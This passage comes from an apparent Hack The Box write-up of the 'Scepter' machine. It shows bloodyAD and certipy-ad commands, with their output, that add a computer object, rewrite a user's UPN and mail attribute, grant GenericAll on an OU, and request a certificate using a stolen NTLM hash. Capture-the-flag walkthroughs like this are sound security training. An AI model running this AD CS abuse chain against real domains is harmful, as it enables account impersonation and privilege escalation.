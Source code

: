 Now we created a `computer object` on behalf of `a.carter` in order to change the `User Principal Name (UPN)` of `d.baker` to `h.brown` since we have the `hash` of `d.baker`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD -d scepter.htb -u a.carter -p 'newpassword' --host dc01.scepter.htb --dc-ip 10.129.248.205 add computer a.carter newpassword
[+] a.carter created
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad account update -username "a.carter@scepter.htb" -p 'newpassword' -user d.baker -upn 'h.brown'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'd.baker':
    userPrincipalName                   : h.brown
[*] Successfully updated 'd.baker'
```

After we created the `computer object` we granted ourselves `GenericAll` permissions on `STAFF ACCESS CERTIFICATE`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p newpassword --dc-ip 10.129.248.205 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

We needed to set the `email value` on `d.baker` to `h.brown@scepter.htb` for the `authentication` to receive the `hash` of `h.brown` when we `authenticate` using his `.pfx` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p newpassword set object d.baker mail -v h.brown@scepter.htb
[+] d.baker's mail has been updated
```

Now with the updated `object` of `d.baker` we requested his `.pfx` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad req -ca 'scepter-DC01-CA' -username 'd.baker@scepter.htb' -hashes 18b5fb0d99e7a475316213c15b6f22ce -template 'StaffAccessCertificate'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```
